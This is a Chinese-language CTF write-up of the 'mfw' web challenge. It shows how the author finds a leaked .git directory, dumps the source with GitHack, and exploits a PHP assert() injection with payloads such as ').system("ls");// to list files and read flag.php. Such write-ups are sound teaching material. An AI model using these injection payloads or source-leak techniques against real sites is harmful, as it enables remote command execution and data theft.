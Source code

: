 # mfw
## 题目描述
暂无
##  思路
http://220.249.52.133:58498  
点开题目链接：  
![avatar](./picture/mfw_1.png)  
随便点点，发现了有用的东西：  
![avatar](./picture/mfw_2.png)  
考虑 Git 源码泄露，查看网页源码，又发现了一个小提示：  
![avatar](./picture/mfw_3.png)  
但是访问 http://220.249.52.133:58498/?page=flag 里面没什么有用的信息，因此，继续沿着 Git 源码泄露的思路走，访问如下：  
http://220.249.52.133:58498/.git/  
![avatar](./picture/mfw_4.png)  
尝试 git 代码失败后，查资料发现了一个 GitHack 的工具，因此用该工具从该网站下载源码：  
```shell
python GitHack.py http://220.249.52.133:58498/.git/
```
得到如下文件：（有个疑问，为什么下载下来的文件和我在网站上看到的文件不一样呢？）  
![avatar](./picture/mfw_5.png)  
在 templates 文件夹里有一个 flag.php 文件：  
![avatar](./picture/mfw_6.png)  
点开发现没什么有用的东西：  
![avatar](./picture/mfw_7.png)  
只好审计一下其他代码，首先看 index.php 的代码，比查看网页源码多的部分如下：  
![avatar](./picture/mfw_8.png)  
首先 GET 一个 page，然后与前缀文件夹 templates/ 拼接，并与后缀 .php 拼接，访问最终的页面。代码中不允许输入的字符中包含连续的两个点，否则就返回错误。这段代码中只用黑名单过滤了两个点，我们可以想办法绕过。我们可以让它先行闭合，如：?page=').phpinfo();//，这样，在进行过滤时，便成了：  
```php
assert("strpos('templates/').phpinfo();//,'..')===false") or die();
```
如此，会把 ,'..')===false" 这些后面的东西注释掉（这里尝试了 # 注释，会显示网页无法正常运作，不知道是什么原因），因此得以查看 phpinfo 信息：  
![avatar](./picture/mfw_9.png)  
我们再来改动 phpinfo 部分，去列出文件列表即可，这里需要查看网页源码，才能看到输出的东西：  
view-source:http://220.249.52.133:58498/?page=‘).system(“ls”);//  
![avatar](./picture/mfw_10.png)  
进入 templates 中，看看有什么文件：  
view-source:http://220.249.52.133:58498/?page=‘).system(“ls templates/”);//  
![avatar](./picture/mfw_11.png)  
看看 flag.php 里有什么：  
view-source:http://220.249.52.133:58498/?page=’).system(”cat templates/flag.php“);//  
![avatar](./picture/mfw_12.png)  
竟然发现了 flag……

***
看 wp，发现还可以如此构造 payload：  
http://220.249.52.133:58498/?page=‘.system(“ls”).'  
```php
assert("strpos('templates/'.system("ls").','..')===false") or die();
```
这里没太理解原理，为啥这样构造也行？  
